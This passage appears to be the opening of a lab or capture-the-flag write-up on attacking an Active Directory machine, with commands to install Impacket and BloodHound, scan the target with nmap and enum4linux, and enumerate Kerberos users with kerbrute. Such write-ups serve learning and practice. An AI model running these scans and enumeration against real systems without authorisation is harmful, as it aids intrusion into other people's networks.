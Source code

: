 Install impacket:
```
sudo su; apt-get update && apt-get upgrade;git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```
To install the Python requirements for Impacket:
```
pip3 install -r /opt/impacket/requirements.txt
```
Once the requirements have finished installing, we can then run the python setup install script:
```
cd /opt/impacket/ && python3 ./setup.py install
```
Install bloodhound and neo4j
```
apt install bloodhound neo4j
```
We use nmap and enum4linux to enumerate the machine.
```
nmap -sV -sC -Pn -T5 10.10.62.43
```
```
enum4linux 10.10.62.43
```
Since the port for kerberos was opened we were able to use kerbrute for user enumeration.

```
./kerbrute userenum --dc 10.10.62.43 -d spookysec.local userlist.txt
```
